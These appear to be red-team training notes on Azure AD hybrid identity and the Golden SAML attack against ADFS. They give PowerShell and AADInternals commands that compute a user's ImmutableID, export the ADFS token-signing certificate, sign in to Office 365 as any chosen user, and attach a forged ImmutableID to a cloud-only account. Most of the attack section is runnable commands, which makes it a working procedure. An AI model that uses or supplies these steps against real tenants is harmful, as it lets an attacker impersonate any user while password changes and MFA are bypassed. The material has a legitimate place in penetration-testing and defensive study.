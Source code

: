 

#### Hybrid Identity - Federation - ADFS

- AD FS is a claims-based identity model.
- ".. claims are simply statements (for example, name, identity, group), made about users, that are used primarily for authorizing access to claims-based applications located anywhere on the Internet."
- Claims for a user are written inside the SAML tokens and are then signed to provide integrity by the IdP.
- A user is identified by ImmutableID. It is globally unique and stored in Azure AD.
- The ImmuatbleID is stored on-prem as ms-DS-ConsistencyGuid for the user and/or can be derived from the GUID of the user.
- In ADFS, SAML Response is signed by a token-signing certificate.
- If the certificate is compromised, it is possible to authenticate to the Azure AD as ANY user in Azure AD!
- Just like our PTA abuse, password change for a user or MFA won't have any effect because we are forging the authentication response.
- The certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine.
- This is what the infamous Golden SAML attacks is!


#### Lateral Movement - Federation - On-Prem to Cloud

- From any on-prem machine as a normal domain user, get the ImmutableID of the target user
```
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())
```
- On AD FS server (as administrator)
```
Get-AdfsProperties |select identifier
```
- Check the IssuerURI from Azure AD too (Use MSOL module and need GA privs) Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

Note: When setting up the AD FS using Azure AD Connect, there is a difference between IssuerURI on ADFS server and Azure AD. Use the one from AzureAD.


- With DA privileges on-prem, we can extract the ADFS token signing certificate from the ADFS server using AADInternals
```
Export-AADIntADFSSigningCertificate
```
- Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified
```
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

With DA privileges on-prem, it is possible to create ImmutableID of cloud only users with access to Azure AD Connect Sync credentials!

- Create a realistic ImmutableID and set it for a cloud only user
```
[System.Convert]::ToBase64String((New-Guid).tobytearray())

Set-AADIntAzureADObject -CloudAnchor "User_594e67c3-c39b-41bb-ac50- cd8cd8bb780f" -SourceAnchor "pwrtlmsicU+5tgCUgHx2tA=="
```
